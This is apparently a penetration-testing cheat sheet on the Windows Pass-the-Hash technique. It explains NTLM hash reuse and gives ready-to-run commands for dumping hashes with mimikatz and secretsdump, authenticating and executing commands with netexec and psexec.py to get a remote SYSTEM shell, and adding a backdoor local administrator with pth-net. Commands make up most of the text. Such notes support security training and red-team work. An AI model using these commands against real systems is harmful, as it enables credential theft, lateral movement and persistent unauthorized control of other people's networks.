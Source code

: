 **Pass the Hash** (PtH) is a post-exploitation technique that allows attackers to authenticate to systems without needing plaintext credentials. Instead, attackers use the **hashed version** of a password directly to access resources. This is possible due to weak authentication protocols, primarily in Windows environments, which validate hashes rather than plaintext passwords.

---

## Key Concepts

- **Hash Authentication**: Many Windows services accept NTLM hashes as authentication without verifying the plaintext password.
- **Hash Retrieval**: Hashes are extracted from memory, SAM databases, or network traffic using tools like Mimikatz or secretsdump.
- **Lateral Movement**: Attackers use the retrieved hashes to access additional systems, escalating their control within the network.

--- 

## Obtain Hashes

- Extract NTLM hashes from a compromised system using tools like:

```bash
mimikatz sekurlsa::logonpasswords
```

Or dump hashes from the SAM database:

```bash
secretsdump.py <target_user>@<target_ip>
```

## Use Hashes to authenticate

#### Using netexec

| Option        | Description                                                |
| ------------- | ---------------------------------------------------------- |
| `<target_ip>` | Target machine's IP address.                               |
| `<username>`  | User account.                                              |
| `<NTLM_hash>` |  Hash (format: `<LM_Hash>:<NT_Hash>` or just `<NT_Hash>`). |

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash>
```

**Check for Administrative Access**: To see if the hash provides administrative privileges:

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash> --admin
```

**Execute Commands**: If administrative access is confirmed, you can execute commands:

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash> -x "whoami"
```

#### Using PsExec

**PsExec** is a Microsoft Sysinternals tool (and also a technique replicated by Impacket and Metasploit modules) that allows remote command execution via SMB.  
With PtH, it can authenticate using **NTLM hashes** instead of passwords.

```bash
psexec.py <domain>/<username>@<target_ip> -hashes <LM_Hash>:<NT_Hash>
```
- `-hashes` allows direct use of NTLM hashes.

- If the account is a local or domain admin, this spawns a remote SYSTEM shell.


---

## Pth-net 

`pth-net` is a modified version of the Windows `net.exe` command that supports hash-based authentication, allowing attackers to interact with remote systems without knowing the plaintext password.

**Common Usage:**

- Creates a new local user named `eviluser` with the password `Passw0rd!`.
```bash
pth-net user add <username> <password> /add
```

- Adds the newly created user to the local Administrators group.
```bash
pth-net localgroup administrators eviluser /add
```

- Lists members of the Domain Admins group in a domain environment.
```bash
pth-net group "Domain Admins" /domain
```

- Establishes a connection to the IPC$ share using NTLM hash authentication.
```bash
pth-net use \\target\IPC$ /user:<domain>\<username> <NTLM_hash>
```